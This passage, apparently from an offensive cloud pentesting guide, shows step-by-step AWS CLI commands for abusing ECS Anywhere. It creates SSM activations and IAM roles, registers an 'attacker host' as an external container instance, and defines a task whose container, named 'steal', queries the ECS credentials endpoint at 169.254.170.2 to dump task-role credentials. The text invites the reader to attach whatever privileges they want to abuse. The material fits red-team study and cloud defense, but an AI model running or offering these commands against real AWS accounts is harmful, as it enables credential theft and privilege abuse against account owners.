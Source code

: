 ```bash
aws ecs create-cluster --cluster-name ht-ecs-anywhere
```

2) Create ECS Anywhere role and SSM activation (for on-prem/EXTERNAL instance)

```bash
aws iam create-role --role-name ecsAnywhereRole \
  --assume-role-policy-document '{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Principal":{"Service":"ssm.amazonaws.com"},"Action":"sts:AssumeRole"}]}'
aws iam attach-role-policy --role-name ecsAnywhereRole --policy-arn arn:aws:iam::aws:policy/AmazonSSMManagedInstanceCore
aws iam attach-role-policy --role-name ecsAnywhereRole --policy-arn arn:aws:iam::aws:policy/service-role/AmazonEC2ContainerServiceforEC2Role
ACTJSON=$(aws ssm create-activation --iam-role ecsAnywhereRole)
ACT_ID=$(echo $ACTJSON | jq -r .ActivationId); ACT_CODE=$(echo $ACTJSON | jq -r .ActivationCode)
```

3) Provision attacker host and auto-register it as EXTERNAL (example: small AL2 EC2 as “on‑prem”)

<details></details>

```bash
AMI=$(aws ssm get-parameters --names /aws/service/ami-amazon-linux-latest/amzn2-ami-hvm-x86_64-gp2 --query 'Parameters[0].Value' --output text)
IID=$(aws ec2 run-instances --image-id $AMI --instance-type t3.micro \
  --user-data file://user-data.sh --query 'Instances[0].InstanceId' --output text)
aws ec2 wait instance-status-ok --instance-ids $IID
```

4) Verify EXTERNAL container instance joined

```bash
aws ecs list-container-instances --cluster ht-ecs-anywhere
aws ecs describe-container-instances --cluster ht-ecs-anywhere \
  --container-instances <ci-arn> --query 'containerInstances[0].[ec2InstanceId,attributes]'
# ec2InstanceId will be mi-XXXXXXXX (SSM managed instance id) and attributes include ecs.capability.external
```

5) Create task/execution roles, register EXTERNAL task definition, and run it on the attacker host

```bash
# roles
aws iam create-role --role-name ht-ecs-task-exec \
  --assume-role-policy-document '{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Principal":{"Service":"ecs-tasks.amazonaws.com"},"Action":"sts:AssumeRole"}]}'
aws iam attach-role-policy --role-name ht-ecs-task-exec --policy-arn arn:aws:iam::aws:policy/service-role/AmazonECSTaskExecutionRolePolicy
aws iam create-role --role-name ht-ecs-task-role \
  --assume-role-policy-document '{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Principal":{"Service":"ecs-tasks.amazonaws.com"},"Action":"sts:AssumeRole"}]}'
# attach any privileges you want to abuse to this task role

# task def (EXTERNAL launch)
cat > td-external.json << 'JSON'
{
  "family": "ht-external",
  "requiresCompatibilities": [ "EXTERNAL" ],
  "networkMode": "bridge",
  "memory": "256",
  "cpu": "128",
  "executionRoleArn": "arn:aws:iam::<account-id>:role/ht-ecs-task-exec",
  "taskRoleArn": "arn:aws:iam::<account-id>:role/ht-ecs-task-role",
  "containerDefinitions": [
    {"name":"steal","image":"public.ecr.aws/amazonlinux/amazonlinux:latest",
     "entryPoint":["/bin/sh","-c"],
     "command":["REL=\$(printenv AWS_CONTAINER_CREDENTIALS_RELATIVE_URI); echo CREDS:; curl -s http://169.254.170.2\$REL; sleep 600"],
```